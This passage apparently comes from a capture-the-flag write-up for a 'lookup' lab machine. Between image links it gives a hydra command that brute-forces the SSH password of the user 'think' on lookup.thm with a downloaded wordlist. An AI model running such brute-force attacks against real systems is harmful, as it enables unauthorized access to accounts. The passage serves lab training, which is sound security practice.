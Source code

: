 ![Download wordlist dark](/assets/images/lookup/dark/download.png){: .dark}

Then I ran a bruteforce attack against the `ssh` service for the user `think` with our new wordlist.

```bash
hydra -l think -P ./passwords -f lookup.thm ssh
```
{: .nolineno}

![Crack think light](/assets/images/lookup/light/crack.png){: .light}